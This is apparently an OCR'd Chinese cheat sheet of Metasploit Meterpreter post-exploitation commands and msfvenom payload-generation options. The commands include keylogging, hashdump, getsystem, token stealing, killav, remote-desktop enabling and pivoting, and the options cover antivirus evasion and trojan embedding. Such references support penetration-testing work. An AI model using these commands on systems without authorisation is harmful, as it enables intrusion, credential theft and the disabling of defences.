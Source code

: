 ```
unsetg （取消全局某个设置参数）：  取消设置一个或多个全局变量的
use （使用某个模块）：           选择按名称模块
version（查看版本信息）：        显示的框架和控制台库版本号

background ：         进程隐藏至后台
Sysinfo ：            系统平台信息
screenshot ：         屏幕截取
shell ：              命令行shell (exit退出)
ls ：                 查看文件目录列表
rm ：                 删除文件 
cat :                 查看目标文件
getwd :               获取目标机当前工作目录,getlwd本地当前工作工作目录
edit （编辑）：         编辑与$ VISUAL或$ EDITOR当前模块的

download C:\\Users\\123\\Desktop\\1.txt 1.txt ：    下载文件
upload /var/www/lcx.exe lcx.exe   ：                上传文件
search -d c:  -f *.doc  ：               搜索文件
execute -f  cmd.exe -i   ：              执行程序/命令 
ps  ：                                   查看进程
run post/windows/capture/keylog_recorder ：          键盘记录
getuid  ：                               查看当前用户权限
use priv  ：                             加载特权模块
getsystem   ：                           提升到SYSTEM权限
hashdump  ：                             导出密码散列
steal_token <PID>  ：                    窃取令牌
rev2self  ：                             恢复原来的令牌 
migrate pid  ：                          迁移进程
run killav  ：                           关闭杀毒软件 
run getgui-e                             启用远程桌面
portfwd add -l 1234 -p 3389 -r <目标IP>  ： 端口转发
run get_local_subnets  ：                获取内网网段信息
run autoroute -s <内网网段>  ：           创建自动路由
run autoroute -p  ：                     查看自动路由表
```

`msfvenom`生成木马

```
-p        指定要使用的 msf 的 payload,也可以使用自定义 payload。
-l        列出所有可用的所有可用资源. 模块类型包括: payloads, encoders, nops等。
-n        为 payload 预先指定一个 NOP 滑动长度（一切为了绕过防火墙与免杀）。
-f        指定 payload 输出的文件类型,--help-formats,可查看支持的所有输出格式(默认的输出格式是 raw,直接输出 payload 的字符，含乱码之类)。
-e        指定要使用编码器。
-a        指定 payload 的目标架构,如 windows 系统的 x64，x86。
--platform        有效载荷的平台，如 windows 系统等。
-s        设定有效攻击荷载的最大长度，简单说就是生成的后门的字节数。
-b        指定坏字符,比如空字符截断问题等，导致后门无法运行。
-i        指定编码的次数,如果使用编码器。
-c        指定一个附加的 win32 shellcode 文件指定一个自定义的可执行文件作为模板。
-x        使用一个自定义可执行程序模板,并将 payload 嵌入其中
-k        当模板被执行时,payload 自动分离并注入到新的进程中,一般和-x 选项一并使用。
-o        指定创建好的 payload 的存放位置
-v        指定一个自定义的变量，以确定输出格式
```
